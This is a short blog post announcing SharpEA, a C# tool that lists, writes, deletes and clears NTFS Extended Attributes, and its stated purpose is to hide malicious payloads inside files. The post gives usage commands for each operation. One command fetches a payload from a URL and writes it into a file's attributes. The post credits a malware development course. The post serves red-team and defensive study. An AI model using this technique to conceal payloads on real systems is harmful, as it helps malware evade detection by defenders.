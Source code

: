 ```yaml
---
layout: post
title: SharpEA - Playing with Extended Attributes (EAs) using C#
excerpt_separator: <!--more-->
---
```


C# program to read, write and delete Extended Attributes (EAs) to "hide" malicious payloads within NTFS filesystems.

<!--more-->


Repository: [https://github.com/ricardojoserf/SharpEA](https://github.com/ricardojoserf/SharpEA)

---------------------------------

### List EAs

```
SharpEA.exe list FILE_PATH
```

Example:

```
SharpEA.exe list c:\Windows\System32\kernel32.dll
```

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/sharpea-screenshots/Screenshot_1.png)

---------------------------------

### Write EA

The payload can be a string, a hexadecimal value or a url to download a file:

```
SharpEA.exe write FILE_PATH EA_NAME PAYLOAD
```

Example using a string:

```
SharpEA.exe write c:\Temp\test.txt EA_name1 RandomString
```

Example using a hexadecimal value (payload starts with "0x..."):

```
SharpEA.exe write c:\Temp\test.txt EA_name2 0x4142434445
```

Example using the content of a downloaded file (payload starts with "http..." or "https..."):

```
SharpEA.exe write c:\Temp\test.txt EA_name3 http://127.0.0.1:8000/a.bin
```

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/sharpea-screenshots/Screenshot_2.png)


---------------------------------

### Delete specific EA

```
SharpEA.exe delete FILE_PATH EA_NAME
```

Example:

```
SharpEA.exe delete c:\Temp\test.txt EA_name1
```


![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/sharpea-screenshots/Screenshot_3.png)


---------------------------------

### Clear all EAs

```
SharpEA.exe clear FILE_PATH
```

Example:

```
SharpEA.exe clear c:\Temp\test.txt
```


![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/sharpea-screenshots/Screenshot_4.png)


--------------------------------------------------------

### Credits

This is based on C++ code from Sektor7's [Malware Development Advanced - Vol.1 course](https://institute.sektor7.net/rto-maldev-adv1).